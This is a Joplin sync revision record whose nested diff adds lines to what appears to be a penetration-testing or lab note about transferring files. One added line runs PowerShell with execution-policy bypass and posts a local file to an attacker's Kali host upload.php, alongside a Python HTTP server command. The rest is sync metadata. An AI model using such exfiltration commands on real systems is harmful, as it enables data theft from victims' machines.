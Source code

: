 id: ca813259c4494dbab979fb61b55013ec
parent_id: 
item_type: 1
item_id: c65f6c68b1b44285b96f6878c01c84e0
item_updated_time: 1646016697877
title_diff: "[{\"diffs\":[[1,\"4211ec9fd9cc44a0ac1dc267490eb9d2\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"id: 4211ec9fd9cc44a0ac1dc267490eb9d2\\\r\\\nparent_id: afe1f2cb958448a198c6ad12e1cf1149\\\r\\\nitem_type: 1\\\r\\\nitem_id: 6542c907ee3d4b659b0fd7588c5dbe48\\\r\\\nitem_updated_time: 1642575179958\\\r\\\ntitle_diff: \\\"[]\\\"\\\r\\\nbody_diff: \\\"[{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"er 8000 \\\\\\\"],[1,\\\\\\\"\\\\\\\\\\\\\n> \\\\\\\\\\\\\n> sudo python3 -m http.server 8001 \\\\\\\"],[0,\\\\\\\"\\\\\\\\\\\\\n\\\\\\\\\\\\\nUpload\\\\\\\"]],\\\\\\\"start1\\\\\\\":149,\\\\\\\"start2\\\\\\\":149,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":55},{\\\\\\\"diffs\\\\\\\":[[0,\\\\\\\"loads/\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[1,\\\\\\\"> powershell -nop -exec bypass Invoke-RestMethod -Uri [http://<*Your Kali IP*>/upload.php](http://10.10.14.29/php/upload.php) -Method Post -Infile '&lt;filename&gt;'\\\\\\\\\\\\\n\\\\\\\\\\\\\n\\\\\\\"],[0,\\\\\\\"https://\\\\\\\"]],\\\\\\\"start1\\\\\\\":514,\\\\\\\"start2\\\\\\\":514,\\\\\\\"length1\\\\\\\":16,\\\\\\\"length2\\\\\\\":183}]\\\"\\\r\\\nmetadata_diff: {\\\"new\\\":{},\\\"deleted\\\":[]}\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nupdated_time: 2022-01-19T06:55:39.250Z\\\r\\\ncreated_time: 2022-01-19T06:55:39.250Z\\\r\\\ntype_: 13\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":851}]"
metadata_diff: {"new":{"id":"c65f6c68b1b44285b96f6878c01c84e0","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016697868,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:22.833Z
created_time: 2022-02-28T02:54:22.833Z
type_: 13